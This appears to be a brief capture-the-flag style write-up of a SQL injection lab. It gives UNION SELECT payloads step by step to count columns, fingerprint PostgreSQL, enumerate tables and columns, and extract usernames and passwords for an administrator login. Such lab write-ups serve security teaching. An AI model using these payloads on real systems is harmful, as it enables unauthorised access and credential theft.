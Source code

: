 First, Determine the number of columns `'UNION SELECT NULL,NULL--+`. 

Next, find which column(s) contain text data `'UNION SELECT 'a','a'--+`.

Next, Find the database type and version `'UNION SELECT version(),'a'--+` which is `PostgreSQL` in this case.

Find the **database contents** using:
To find table names:
```
'UNION SELECT table_name,NULL FROM information_schema.tables

```
To find column names:
```
'UNION SELECT column_name,NULL FROM information_schema.columns where table_name='users_otycqm'--
```
To find username and password:
```
'UNION SELECT username_wkltbr,password_ccjuel FROM users_otycqm--
```
Now, you will get the credentials, login for administrator account.
